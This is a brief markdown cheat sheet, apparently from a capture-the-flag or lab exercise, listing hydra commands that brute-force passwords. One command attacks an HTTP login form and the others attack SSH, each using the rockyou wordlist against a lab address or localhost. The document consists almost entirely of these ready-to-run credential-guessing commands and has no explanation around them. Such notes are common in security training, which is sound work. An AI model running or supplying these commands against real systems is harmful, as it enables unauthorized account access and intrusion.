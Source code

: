 
### Bruteforce a login form
```bash
hydra -l molly -P Downloads/rockyou.txt 10.10.61.210 http-post-form "/login:username=^USER^&password=^PASS^:incorrect" -V
```

### bruteforce SSH

```bash
hydra -l molly -P Downloads/rockyou.txt 10.10.61.210 ssh -V -I

hydra -s 22 -v -q -L ~/Downloads/rockyou.txt -e nsr -t 9 -w 5  127.0.0.1 ssh
```
